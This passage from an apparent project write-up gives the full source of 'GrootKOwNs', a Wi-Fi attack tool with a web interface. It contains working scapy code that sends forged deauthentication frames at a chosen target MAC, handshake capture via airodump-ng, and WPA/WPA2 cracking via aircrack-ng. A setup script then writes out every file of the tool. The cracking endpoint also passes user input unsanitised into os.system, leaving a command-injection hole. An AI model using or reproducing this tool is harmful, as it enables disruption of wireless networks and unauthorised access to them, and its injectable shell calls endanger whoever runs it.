        'subtype': packet.subtype
    }
    with open(VISUALIZATION_FILE, 'a') as f:
        f.write(json.dumps(data) + "\n")

def store_handshake(handshake):
    with open(HANDSHAKE_FILE, 'a') as f:
        f.write(json.dumps(handshake) + "\n")

def read_logs(file_path):
    if os.path.exists(file_path):
        with open(file_path, 'r') as f:
            return f.readlines()
    return []

def read_visualization_data():
    if os.path.exists(VISUALIZATION_FILE):
        with open(VISUALIZATION_FILE, 'r') as f:
            return [json.loads(line) for line in f]
    return []
```

#### main.py

```python
import capture
import deauth
import crack
import web

def main():
    print("Starting GrootKOwNs system...")
    choice = input("Choose an option:\n1. Start GrootKOwNs\n2. Start Web Interface\n> ")

    if choice == '1':
        capture.start_grootkowns()
    elif choice == '2':
        web.start_web_interface()
    else:
        print("Invalid choice. Exiting...")

if __name__ == "__main__":
    main()
```

#### web.py

```python
from flask import Flask, request, jsonify, send_from_directory
import threading
import storage
import capture
import deauth
import crack
import matplotlib.pyplot as plt
import seaborn as sns
import io
import base64

app = Flask(__name__)

@app.route('/')
def home():
    return send_from_directory('client/build', 'index.html')

@app.route('/capture', methods=['POST'])
def capture_packets():
    iface = request.json['iface']
    threading.Thread(target=capture.start_grootkowns).start()
    return jsonify({"status": "Packet capture started on interface: " + iface})

@app.route('/deauth', methods=['POST'])
def deauth():
    target_mac = request.json['target_mac']
    gateway_mac = request.json['gateway_mac']
    iface = request.json['iface']
    threading.Thread(target=deauth.deauth_attack, args=(target_mac, gateway_mac, iface)).start()
    return jsonify({"status": f"Deauth attack started on target: {target_mac} via gateway: {gateway_mac}"})

@app.route('/crack', methods=['POST'])
def crack():
    handshake_file = request.json['handshake_file']
    wordlist_file = request.json['wordlist_file']
    bssid = request.json['bssid']
    threading.Thread(target=crack.crack_password, args=(handshake_file, wordlist_file, bssid)).start()
    return jsonify({"status": f"Cracking started on handshake file: {handshake_file}"})

@app.route('/log')
def log():
    logs = storage.read_logs(storage.PACKET_FILE)
    return jsonify(logs)

@app.route('/visualization_data')
def visualization_data():
    data = storage.read_visualization_data()
    return jsonify(data)

@app.route('/visualize_traffic')
def visualize_traffic():
    data = storage.read_visualization_data()
    src_counts = {}
    for entry in data:
        src = entry['src']
        if src in src_counts:
            src_counts[src] += 1
        else:
            src_counts[src] = 1
    
    # Create a bar plot
    src_labels = list(src_counts.keys())
    src_values = list(src_counts.values())
    
    plt.figure(figsize=(10, 6))
    sns.barplot(x=src_labels, y=src_values)
    plt.xlabel('Source MAC Address')
    plt.ylabel('Packet Count')
    plt.title('Network Traffic by Source MAC Address')
    plt

.xticks(rotation=45, ha='right')
    plt.tight_layout()

    # Save the plot to a BytesIO object and encode as base64
    img = io.BytesIO()
    plt.savefig(img, format='png')
    img.seek(0)
    plot_url = base64.b64encode(img.getvalue()).decode('utf8')
    plt.close()

    return jsonify({'plot_url': f"data:image/png;base64,{plot_url}"})

@app.route('/visualize_attack_vectors')
def visualize_attack_vectors():
    data = storage.read_visualization_data()
    attack_data = [entry for entry in data if entry['type'] == 0 and entry['subtype'] == 12]  # Example: filter Deauth packets

    src_counts = {}
    for entry in attack_data:
        src = entry['src']
        if src in src_counts:
            src_counts[src] += 1
        else:
            src_counts[src] = 1

    # Create a bar plot
    src_labels = list(src_counts.keys())
    src_values = list(src_counts.values())

    plt.figure(figsize=(10, 6))
    sns.barplot(x=src_labels, y=src_values)
    plt.xlabel('Source MAC Address')
    plt.ylabel('Attack Packet Count')
    plt.title('Attack Vectors by Source MAC Address')
    plt.xticks(rotation=45, ha='right')
    plt.tight_layout()

    # Save the plot to a BytesIO object and encode as base64
    img = io.BytesIO()
    plt.savefig(img, format='png')
    img.seek(0)
    plot_url = base64.b64encode(img.getvalue()).decode('utf8')
    plt.close()

    return jsonify({'plot_url': f"data:image/png;base64,{plot_url}"})

def start_web_interface():
    app.run(host='0.0.0.0', port=5000)
```

### 5. Frontend Code

#### index.html

Update `index.html` to include placeholders for the visualizations:

```html
<!DOCTYPE html>
<html>
<head>
    <title>GrootKOwNs</title>
    <style>
        body {
            background-color: #121212;
            color: #ffffff;
            font-family: Arial, sans-serif;
        }
        h1, h2 {
            text-align: center;
        }
        form {
            margin: 20px;
            padding: 20px;
            background-color: #1e1e1e;
            border-radius: 5px;
        }
        label, input {
            display: block;
            margin: 10px 0;
        }
        button {
            background-color: #6200ea;
            color: #ffffff;
            border: none;
            padding: 10px 20px;
            cursor: pointer;
            border-radius: 5px;
        }
        button:hover {
            background-color: #3700b3;
        }
        .log {
            background-color: #1e1e1e;
            padding: 10px;
            border-radius: 5px;
            overflow-y: scroll;
            height: 200px;
        }
        .visualization {
            margin: 20px;
            padding: 20px;
            background-color: #1e1e1e;
            border-radius: 5px;
        }
    </style>
</head>
<body>
    <h1>GrootKOwNs</h1>
    <form id="capture-form">
        <h2>Start Packet Capture</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="iface" name="iface">
        <button type="submit">Start Capture</button>
    </form>
    <form id="deauth-form">
        <h2>Start Deauth Attack</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="deauth_iface" name="iface">
        <label for="target_mac">Target MAC:</label>
        <input type="text" id="target_mac" name="target_mac">
        <label for="gateway_mac">Gateway MAC:</label>
        <input type="text" id="gateway_mac" name="gateway_mac">
        <button type="submit">Start Deauth Attack</button>
    </form>
    <form id="crack-form">
        <h2>Crack WPA/WPA2 Password</h2>
        <label for="handshake_file">Handshake File:</label>
        <input type="text" id="handshake_file" name="handshake_file">
        <label for="wordlist_file">Wordlist File:</label>
        <input type="text" id="wordlist_file" name="wordlist_file">
        <label for="bssid">BSSID:</label>
        <input type="text" id="bssid" name="bssid">
        <button type="submit">Start Cracking</button>
    </form>
    <div class="log" id="log">
        <h2>Live Log</h2>
    </div>
    <div class="visualization" id="traffic-visualization">
        <h2>Network Traffic Visualization</h2>
        
    </div>
    <div class="visualization" id="attack-visualization">
        <h2>Attack Vector Visualization</h2>
        
    </div>
    <script>
        document.getElementById('capture-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/capture', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ iface: document.getElementById('iface').value })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('deauth-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/deauth', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    iface: document.getElementById('deauth_iface').value,
                    target_mac: document.getElementById('target_mac').value,
                    gateway_mac: document.getElementById('gateway_mac').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('crack-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/crack', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    handshake_file: document.getElementById('handshake_file').value,
                    wordlist_file: document.getElementById('wordlist_file').value,
                    bssid: document.getElementById('bssid').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };

        function updateLog() {
            fetch('/log').then(response => response.json()).then(data => {
                const logElement = document.getElementById('log');
                logElement.innerHTML = '<h2>Live Log</h2>';
                data.forEach(log => {
                    logElement.innerHTML += '<p>' + log + '</p>';
                });
            });
        }

        function updateVisualizations() {
            fetch('/visualize_traffic').then(response => response.json()).then(data => {
                document.getElementById('traffic-plot').src = data.plot_url;
            });
            fetch('/visualize_attack_vectors').then(response => response.json()).then(data => {
                document.getElementById('attack-plot').src = data.plot_url;
            });
        }

        setInterval(updateLog, 5000);
        setInterval(updateVisualizations, 10000);  // Update visualizations every 10 seconds
    </script>
</body>
</html>
```

#### App.js

Replace the contents of `client/src/App.js` with:

```jsx
import React, { useState, useEffect } from 'react';
import axios from 'axios';
import './App.css';

function App() {
  const [logs, setLogs] = useState([]);

  useEffect(() => {
    const fetchLogs = async () => {
      const result = await axios.get('/log');
      setLogs(result.data);
    };
    
    const interval = setInterval(fetchLogs, 5000);
    return () => clearInterval(interval);
  }, []);

  const handleCapture = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    await axios.post('/capture', { iface });
  };

  const handleDeauth = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    const target_mac = e.target.target_mac.value;
    const gateway_mac = e.target.gateway_mac.value;
    await axios.post('/deauth', { iface, target_mac, gateway_mac });
  };

  const handleCrack = async (e) => {
    e.preventDefault();
    const handshake_file = e.target.handshake_file.value;
    const wordlist_file = e.target.wordlist_file.value;
    const bssid = e.target.bssid.value;
    await axios.post('/crack', { handshake_file, wordlist_file, bssid });
  };

  return (
    <div className="App">
      <

header className="App-header">
        <h1>GrootKOwNs</h1>
        <form onSubmit={handleCapture}>
          <h2>Start Packet Capture</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <button type="submit">Start Capture</button>
        </form>
        <form onSubmit={handleDeauth}>
          <h2>Start Deauth Attack</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <label>
            Target MAC:
            <input type="text" name="target_mac" />
          </label>
          <label>
            Gateway MAC:
            <input type="text" name="gateway_mac" />
          </label>
          <button type="submit">Start Deauth Attack</button>
        </form>
        <form onSubmit={handleCrack}>
          <h2>Crack WPA/WPA2 Password</h2>
          <label>
            Handshake File:
            <input type="text" name="handshake_file" />
          </label>
          <label>
            Wordlist File:
            <input type="text" name="wordlist_file" />
          </label>
          <label>
            BSSID:
            <input type="text" name="bssid" />
          </label>
          <button type="submit">Start Cracking</button>
        </form>
        <div className="log">
          <h2>Live Log</h2>
          {logs.map((log, index) => (
            <p key={index}>{log}</p>
          ))}
        </div>
      </header>
    </div>
  );
}

export default App;
```

#### App.css

Update `client/src/App.css` for dark mode:

```css
body {
  background-color: #121212;
  color: #ffffff;
  font-family: Arial, sans-serif;
}

h1, h2 {
  text-align: center;
}

form {
  margin: 20px;
  padding: 20px;
  background-color: #1e1e1e;
  border-radius: 5px;
}

label, input {
  display: block;
  margin: 10px 0;
}

button {
  background-color: #6200ea;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  cursor: pointer;
  border-radius: 5px;
}

button:hover {
  background-color: #3700b3;
}

.log {
  background-color: #1e1e1e;
  padding: 10px;
  border-radius: 5px;
  overflow-y: scroll;
  height: 200px;
}
```

### 6. Building and Running the Application

Navigate to the `client` directory, build the React app, and serve it using Flask:

```bash
cd client
npm run build
```

Then, start the Flask server:

```bash
cd ..
python3 main.py
```

Navigate to `http://localhost:5000` in your browser to use the GrootKOwNs interface.


# Autoinstall
the script to generate the project structure:

### GrootKOwNs_setup.py

```python
import os

project_structure = {
    "grootkowns": {
        "client": {
            "build": {},
            "node_modules": {},
            "public": {},
            "src": {
                "App.css": """
body {
  background-color: #121212;
  color: #ffffff;
  font-family: Arial, sans-serif;
}

h1, h2 {
  text-align: center;
}

form {
  margin: 20px;
  padding: 20px;
  background-color: #1e1e1e;
  border-radius: 5px;
}

label, input {
  display: block;
  margin: 10px 0;
}

button {
  background-color: #6200ea;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  cursor: pointer;
  border-radius: 5px;
}

button:hover {
  background-color: #3700b3;
}

.log {
  background-color: #1e1e1e;
  padding: 10px;
  border-radius: 5px;
  overflow-y: scroll;
  height: 200px;
}
""",
                "App.js": """
import React, { useState, useEffect } from 'react';
import axios from 'axios';
import './App.css';

function App() {
  const [logs, setLogs] = useState([]);

  useEffect(() => {
    const fetchLogs = async () => {
      const result = await axios.get('/log');
      setLogs(result.data);
    };
    
    const interval = setInterval(fetchLogs, 5000);
    return () => clearInterval(interval);
  }, []);

  const handleCapture = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    await axios.post('/capture', { iface });
  };

  const handleDeauth = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    const target_mac = e.target.target_mac.value;
    const gateway_mac = e.target.gateway_mac.value;
    await axios.post('/deauth', { iface, target_mac, gateway_mac });
  };

  const handleCrack = async (e) => {
    e.preventDefault();
    const handshake_file = e.target.handshake_file.value;
    const wordlist_file = e.target.wordlist_file.value;
    const bssid = e.target.bssid.value;
    await axios.post('/crack', { handshake_file, wordlist_file, bssid });
  };

  return (
    <div className="App">
      <header className="App-header">
        <h1>GrootKOwNs</h1>
        <form onSubmit={handleCapture}>
          <h2>Start Packet Capture</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <button type="submit">Start Capture</button>
        </form>
        <form onSubmit={handleDeauth}>
          <h2>Start Deauth Attack</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <label>
            Target MAC:
            <input type="text" name="target_mac" />
          </label>
          <label>
            Gateway MAC:
            <input type="text" name="gateway_mac" />
          </label>
          <button type="submit">Start Deauth Attack</button>
        </form>
        <form onSubmit={handleCrack}>
          <h2>Crack WPA/WPA2 Password</h2>
          <label>
            Handshake File:
            <input type="text" name="handshake_file" />
          </label>
          <label>
            Wordlist File:
            <input type="text" name="wordlist_file" />
          </label>
          <label>
            BSSID:
            <input type="text" name="bssid" />
          </label>
          <button type="submit">Start Cracking</button>
        </form>
        <div className="log">
          <h2>Live Log</h2>
          {logs.map((log, index) => (
            <p key={index}>{log}</p>
          ))}
        </div>
      </header>
    </div>
  );
}

export default App;
""",
                "index.js": """
import React from 'react';
import ReactDOM from 'react-dom';
import './index.css';
import App from './App';

ReactDOM.render(
  <React.StrictMode>
    <App />
  </React.StrictMode>,
  document.getElementById('root')
);
""",
            },
            "package.json": """
{
  "name": "grootkowns-client",
  "version": "0.1.0",
  "private": true,
  "dependencies": {
    "axios": "^0.21.1",
    "react": "^17.0.2",
    "react-dom": "^17.0.2",
    "react-scripts": "4.0.3"
  },
  "scripts": {
    "start": "react-scripts start",
    "build": "react-scripts build",
    "test": "react-scripts test",
    "eject": "react-scripts eject"
  },
  "eslintConfig": {
    "extends": [
      "react-app",
      "react-app/jest"
    ]
  },
  "browserslist": {
    "production": [
      ">0.2%",
      "not dead",
      "not op_mini all"
    ],
    "development": [
      "last 1 chrome version",
      "last 1 firefox version",
      "last 1 safari version"
    ]
  }
}
"""
        },
        "templates": {
            "index.html": """
<!DOCTYPE html>
<html>
<head>
    <title>GrootKOwNs</title>
    <style>
        body {
            background-color: #121212;
            color: #ffffff;
            font-family: Arial, sans-serif;
        }
        h1, h2 {
            text-align: center;
        }
        form {
            margin: 20px;
            padding: 20px;
            background-color: #1e1e1e;
            border-radius: 5px;
        }
        label, input {
            display: block;
            margin: 10px 0;
        }
        button {
            background-color: #6200ea;
            color: #ffffff;
            border: none;
            padding: 10px 20px;
            cursor: pointer;
            border-radius: 5px;
        }
        button:hover {
            background-color: #3700b3;
        }
        .log {
            background-color: #1e1e1e;
            padding: 10px;
            border-radius: 5px;
            overflow-y: scroll;
            height: 200px;
        }
        .visualization {
            margin: 20px;
            padding: 20px;
            background-color: #1e1e1e;
            border-radius: 5px;
        }
    </style>
</head>
<body>
    <h1>GrootKOwNs</h1>
    <form id="capture-form">
        <h2>Start Packet Capture</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="iface" name="iface">
        <button type="submit">Start Capture</button>
    </form>
    <form id="deauth-form">
        <h2>Start Deauth Attack</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="deauth_iface" name="iface">
        <label for="target_mac">Target MAC:</label>
        <input type="text" id="target_mac" name="target_mac">
        <label for="gateway_mac">Gateway MAC:</label>
        <input type="text" id="gateway_mac" name="gateway_mac">
        <button type="submit">Start Deauth Attack</button>
    </form>
    <form id="crack-form">
        <h2>Crack WPA/WPA2 Password</h2>
        <label for="handshake_file">Handshake File:</label>
        <input type="text" id="handshake_file" name="handshake_file">
        <label for="wordlist_file">Wordlist File:</label>
        <input type="text" id="wordlist_file" name="wordlist_file">
        <label for="bssid">BSSID:</label>
        <input type="text" id="bssid" name="bssid">
        <button type="submit">Start Cracking</button>
    </form>
    <div class="log" id="log">
        <h2>Live Log</h2>
    </div>
    <div class="visualization" id="traffic-visualization">
        <h2>Network Traffic Visualization</h2>
        
    </div>
    <div class="visualization" id="attack-visualization">
        <h2>Attack Vector Visualization</h2>
        
    </div>
    <script>
        document.getElementById('capture-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/capture', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ iface: document.getElementById('iface').value })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('deauth-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/deauth', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    iface: document.getElementById('deauth_iface').value,
                    target_mac: document.getElementById('target_mac').value,
                    gateway_mac: document.getElementById('gateway_mac').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('crack-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/crack', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    handshake_file: document.getElementById('handshake_file').value,
                    wordlist_file: document.getElementById('wordlist_file').value,
                    bssid: document.getElementById('bssid').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };

        function updateLog() {
            fetch('/log').then(response => response.json()).then(data => {
                const logElement = document.getElementById('log');
                logElement.innerHTML = '<h2>Live Log</h2>';
                data.forEach(log => {
                    logElement.innerHTML += '<p>' + log + '</p>';
                });
            });
        }

        function updateVisualizations() {
            fetch('/visualize_traffic').then(response => response.json()).then(data => {
                document.getElementById('traffic-plot').src = data.plot_url;
            });
            fetch('/visualize_attack_vectors').then(response => response.json()).then(data => {
                document.getElementById('attack-plot').src = data.plot_url;
            });
        }

        setInterval(updateLog, 5000);
        setInterval(updateVisualizations, 10000);  // Update visualizations every 10 seconds
    </script>
</body>
</html>
"""
        },
        "static": {},
        "capture.py": """
from scapy.all import *
import threading
import storage
import time
import os
from transformers import BertTokenizer, BertModel
import torch

# Load TinyBERT
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)

def analyze_packet(packet):
    if packet.haslayer(Dot11):
        packet_info = packet.summary()
        inputs = tokenizer(packet_info, return_tensors="pt")
        outputs = model(**inputs)
        return outputs.last_hidden_state

def packet_handler(packet):
    analysis = analyze_packet(packet)
    storage.store_packet(packet, analysis)
    storage.store_packet_for_visualization(packet)

def start_capture(iface):
    sniff(iface=iface, prn=packet_handler)

def start_grootkowns():
    iface = input("Enter interface (e.g., wlan0mon): ")
    threading.Thread(target=start_capture, args=(iface,)).start()
    
    # Automated scanning and capturing
    while True:
        os.system(f'sudo airodump-ng {iface} --write grootkowns --output-format pcap')
        time.sleep(10)  # Adjust sleep duration as needed
""",
        "crack.py": """
import os

def crack_password(handshake_file, wordlist_file, bssid):
    os.system(f"aircrack-ng -w {wordlist_file} -b {bssid} {handshake_file}")
""",
        "deauth.py": """
from scapy.all import *

def deauth_attack(target_mac, gateway_mac, iface):
    dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
    packet = RadioTap()/dot11/Dot11Deauth(reason=7)
    sendp(packet, inter=0.1, count=100, iface=iface, verbose=1)
""",
        "main.py": """
import capture
import deauth
import crack
import web

def main():
    print("Starting GrootKOwNs system...")
    choice = input("Choose an option:\\n1. Start GrootKOwNs\\n2. Start Web Interface\\n> ")

    if choice == '1':
        capture.start_grootkowns()
    elif choice == '2':
        web.start_web_interface()
    else:
        print("Invalid choice. Exiting...")

if __name__ == "__main__":
    main()
""",
        "storage.py": """
import json
import os

PACKET_FILE = 'packets.json'
HANDSHAKE_FILE = 'handshakes.json'
ANALYSIS_FILE = 'analysis.json'
VISUALIZATION_FILE = 'visualization_data.json'

def store_packet(packet, analysis):
    data = {
        'src': packet.addr2,
        'dst': packet.addr1,
        'info': packet.summary(),
        'analysis': analysis.tolist()  # Convert tensor to list for JSON serialization
    }
    with open(PACKET_FILE, 'a') as f:
        f.write(json.dumps(data) + "\\n")

def store_packet_for_visualization(packet):
    data = {
        'src': packet.addr2,
        'dst': packet.addr1,
        'info': packet.summary(),
        'type': packet.type,
        'subtype': packet.subtype
    }
    with open(VISUALIZATION_FILE, 'a') as f:
        f.write(json.dumps(data) + "\\n")

def store_handshake(handshake):
    with open(HANDSHAKE_FILE, 'a') as f:
        f.write(json.dumps(handshake) + "\\n")

def read_logs(file_path):
    if os.path.exists(file_path):
        with open(file_path, 'r') as f:
            return f.readlines()
    return []

def read_visualization_data():
    if os.path.exists(VISUALIZATION_FILE):
        with open(VISUALIZATION_FILE, 'r') as f:
            return [json.loads(line) for line in f]
    return []
""",
        "web.py": """
from flask import Flask, request, jsonify, send_from_directory
import threading
import storage
import capture
import deauth
import crack
import matplotlib.pyplot as plt
import seaborn as sns
import io
import base64

app = Flask(__name__)

@app.route('/')
def home():
    return send_from_directory('client/build', 'index.html')

@app.route('/capture', methods=['POST'])
def capture_packets():
    iface = request.json['iface']
    threading.Thread(target=capture.start_grootkowns).start()
    return jsonify({"status": "Packet capture started on interface: " + iface})

@app.route('/deauth', methods=['POST'])
def deauth():
    target_mac = request.json['target_mac']
    gateway_mac = request.json['gateway_mac']
    iface = request.json['iface']
    threading.Thread(target=deauth.deauth_attack, args=(target_mac, gateway_mac, iface)).start()
    return jsonify({"status": f"Deauth attack started on target: {target_mac} via gateway: {gateway_mac}"})

@app.route('/crack', methods=['POST'])
def crack():
    handshake_file = request.json['handshake_file']
    wordlist_file = request.json['wordlist_file']
    bssid = request.json['bssid']
    threading.Thread(target=crack.crack_password, args=(handshake_file, wordlist_file, bssid)).start()
    return jsonify({"status": f"Cracking started on handshake file: {handshake_file}"})

@app.route('/log')
def log():
    logs = storage.read_logs(storage.PACKET_FILE)
    return jsonify(logs)

@app.route('/visualization_data')
def visualization_data():
    data = storage.read_visualization_data()
    return jsonify(data)

@app.route('/visualize_traffic')
def visualize_traffic():
    data = storage.read_visualization_data()
    src_counts = {}
    for entry in data:
        src = entry['src']
        if src in src_counts:
            src_counts[src] += 1
        else:
            src_counts[src] = 1
    
    # Create a bar plot
    src_labels = list(src_counts.keys())
    src_values = list(src_counts.values())
    
    plt.figure(figsize=(10, 6))
    sns.barplot(x=src_labels, y=src_values)
    plt.xlabel('Source MAC Address')
    plt.ylabel('Packet Count')
    plt.title('Network Traffic by Source MAC Address')
    plt.xticks(rotation=45, ha='right')
    plt.tight_layout()

    # Save the plot to a BytesIO object and encode as base64
    img = io.BytesIO()
    plt.savefig(img, format='png')
    img.seek(0)
    plot_url = base64.b64encode(img.getvalue()).decode('utf8')
    plt.close()

    return jsonify({'plot_url': f"data:image/png;base64,{plot_url

}"})

@app.route('/visualize_attack_vectors')
def visualize_attack_vectors():
    data = storage.read_visualization_data()
    attack_data = [entry for entry in data if entry['type'] == 0 and entry['subtype'] == 12]  # Example: filter Deauth packets

    src_counts = {}
    for entry in attack_data:
        src = entry['src']
        if src in src_counts:
            src_counts[src] += 1
        else:
            src_counts[src] = 1

    # Create a bar plot
    src_labels = list(src_counts.keys())
    src_values = list(src_counts.values())

    plt.figure(figsize=(10, 6))
    sns.barplot(x=src_labels, y=src_values)
    plt.xlabel('Source MAC Address')
    plt.ylabel('Attack Packet Count')
    plt.title('Attack Vectors by Source MAC Address')
    plt.xticks(rotation=45, ha='right')
    plt.tight_layout()

    # Save the plot to a BytesIO object and encode as base64
    img = io.BytesIO()
    plt.savefig(img, format='png')
    img.seek(0)
    plot_url = base64.b64encode(img.getvalue()).decode('utf8')
    plt.close()

    return jsonify({'plot_url': f"data:image/png;base64,{plot_url}"})

def start_web_interface():
    app.run(host='0.0.0.0', port=5000)
""",
        "requirements.txt": """
Flask
scapy
waitress
requests
transformers
torch
matplotlib
seaborn
""",
        "download_model.py": """
from transformers import BertTokenizer, BertModel

# Load TinyBERT and download the weights
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')

print("Model and tokenizer downloaded.")
"""
    }
}

def create_project_structure(base_path, structure):
    for name, content in structure.items():
        path = os.path.join(base_path, name)
        if isinstance(content, dict):
            os.makedirs(path, exist_ok=True)
            create_project_structure(path, content)
        else:
            with open(path, 'w') as file:
                file.write(content)

create_project_structure('.', project_structure)
```

### How to Run the Setup Script

1. Save the above script as `GrootKOwNs_setup.py`.
2. Open a terminal and navigate to the directory where you saved `project_setup.py`.
3. Run the script:
    ```bash
    python3 GrootKOwNs_setup.py
    ```

This will generate the entire project structure and files for GrootKOwNs.

### Final Steps

1. **Navigate to the `client` directory and install npm packages:**
    ```bash
    cd grootkowns/client
    npm install
    ```

2. **Build the React app:**
    ```bash
    npm run build
    ```

3. **Navigate back to the root directory and run the Flask server:**
    ```bash
    cd ..
    python3 main.py
    ```

Navigate to `http://localhost:5000` in your browser to use the GrootKOwNs interface. 


## Project Structure
Here's the updated project structure:

```plaintext
grootkowns/
├── capture.py
├── client/
│   ├── build/
│   ├── node_modules/
│   ├── package.json
│   ├── public/
│   └── src/
├── crack.py
├── deauth.py
├── download_model.py
├── main.py
├── requirements.txt
├── static/
├── storage.py
├── templates/
│   └── index.html
└── web.py
```

## Requirements
Create a `requirements.txt` file to include the Python dependencies:

```plaintext
Flask
scapy
waitress
requests
transformers
torch
matplotlib
seaborn
```

## Setup Script

The `GrootKOwNs_setup.py` script that creates the project structure:

```python
import os

project_structure = {
    "grootkowns": {
        "client": {
            "package.json": """
{
  "name": "grootkowns",
  "version": "1.0.0",
  "description": "GrootKOwNs Client",
  "main": "index.js",
  "scripts": {
    "start": "react-scripts start",
    "build": "react-scripts build",
    "test": "react-scripts test",
    "eject": "react-scripts eject"
  },
  "dependencies": {
    "react": "^17.0.2",
    "react-dom": "^17.0.2",
    "react-scripts": "4.0.3"
  },
  "devDependencies": {
    "eslint": "7.32.0",
    "eslint-plugin-react": "7.24.0"
  },
  "browserslist": {
    "production": [
      ">0.2%",
      "not dead",
      "not op_mini all"
    ],
    "development": [
      "last 1 chrome version",
      "last 1 firefox version",
      "last 1 safari version"
    ]
  }
}
""",
            "src": {
                "index.js": """
import React from 'react';
import ReactDOM from 'react-dom';
import './index.css';
import App from './App';
import reportWebVitals from './reportWebVitals';

ReactDOM.render(
  <React.StrictMode>
    <App />
  </React.StrictMode>,
  document.getElementById('root')
);

reportWebVitals();
""",
                "App.js": """
import React, { useEffect, useState } from 'react';
import './App.css';

function App() {
  const [log, setLog] = useState([]);
  const [trafficPlot, setTrafficPlot] = useState('');
  const [attackPlot, setAttackPlot] = useState('');

  useEffect(() => {
    const interval = setInterval(() => {
      fetch('/log')
        .then(response => response.json())
        .then(data => setLog(data));

      fetch('/visualize_traffic')
        .then(response => response.json())
        .then(data => setTrafficPlot(data.plot_url));

      fetch('/visualize_attack_vectors')
        .then(response => response.json())
        .then(data => setAttackPlot(data.plot_url));
    }, 5000);

    return () => clearInterval(interval);
  }, []);

  return (
    <div className="App">
      <header className="App-header">
        <h1>GrootKOwNs</h1>
      </header>
      <main>
        <section>
          <h2>Live Log</h2>
          <div id="log">
            {log.map((entry, index) => (
              <p key={index}>{entry}</p>
            ))}
          </div>
        </section>
        <section>
          <h2>Traffic Visualization</h2>
          
        </section>
        <section>
          <h2>Attack Vector Visualization</h2>
          
        </section>
      </main>
    </div>
  );
}

export default App;
""",
                "App.css": """
.App {
  text-align: center;
}

.App-logo {
  height: 40vmin;
  pointer-events: none;
}

.App-header {
  background-color: #282c34;
  min-height: 100vh;
  display: flex;
  flex-direction: column;
  align-items: center;
  justify-content: center;
  font-size: calc(10px + 2vmin);
  color: white;
}

.App-link {
  color: #61dafb;
}
""",
                "index.css": """
body {
  margin: 0;
  font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, 'Helvetica Neue', Arial, sans-serif;
  -webkit-font-smoothing: antialiased;
  -moz-osx-font-smoothing: grayscale;
}

code {
  font-family: source-code-pro, Menlo, Monaco, Consolas, 'Courier New', monospace;
}
""",
                "reportWebVitals.js": """
const reportWebVitals = onPerfEntry => {
  if (onPerfEntry && onPerfEntry instanceof Function) {
    import('web-vitals').then(({ getCLS, getFID, getFCP, getLCP, getTTFB }) => {
      getCLS(onPerfEntry);
      getFID(onPerfEntry);
      getFCP(onPerfEntry);
      getLCP(onPerfEntry);
      getTTFB(onPerfEntry);
    });
  }
};

export default reportWebVitals;
"""
            }
        },
        "static": {},
        "templates": {
            "index.html": """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>GrootKOwNs</title>
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.3/css/all.min.css">
</head>
<body>
    <div id="root"></div>
    <script src="static/js/bundle.js"></script>
</body>
</html>
"""
        },
        "capture.py": """
from scapy.all import *
import threading
import storage
import time
import os
from transformers import BertTokenizer, BertModel
import torch

# Load TinyBERT
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)

def analyze_packet(packet):
    if packet.haslayer(Dot11):
        packet_info = packet.summary()
        inputs = tokenizer(packet_info, return_tensors="pt")
        outputs = model(**inputs)
        return outputs.last_hidden_state

def packet_handler(packet):
    analysis = analyze_packet(packet)
    storage.store_packet(packet, analysis)
    storage.store_packet_for_visualization(packet)

def start_capture(iface):
    sniff(iface=iface, prn=packet_handler)

def start_grootkowns():
    iface = input("Enter interface (e.g., wlan0mon): ")
